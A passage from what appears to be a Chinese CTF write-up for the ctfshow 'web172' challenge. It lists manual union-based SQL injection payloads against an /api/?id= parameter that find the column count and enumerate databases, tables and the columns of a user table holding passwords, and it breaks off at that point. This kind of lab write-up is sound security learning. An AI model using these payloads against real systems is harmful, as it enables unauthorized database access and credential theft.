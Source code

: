 
### web172

撸猫为主，要什么flag？

我就要！

进入环境，查看页面源码，发现select.js

看到查询时的url是/api/?id=

![](.\SQL注入\web172\完成注入.png)

先上手动注入流程：

1. 查看页面源码，发现select.js

   看到查询时的url是/api/?id=

   /api/?id=1' order by 3%23

   /api/?id=1' union select 1,2,3%23

   /api/?id=1' union select 1,2,database()%23

   联合查询

   /api/?id=1' union select 1,(select group_concat(schema_name) from information_schema.schemata),database()%23

   /api/?id=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),database()%23

   /api/?id=1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='ctfshow_web' and table_name='ctfshow_user'),database()%23

   看到有3列 id,username,password
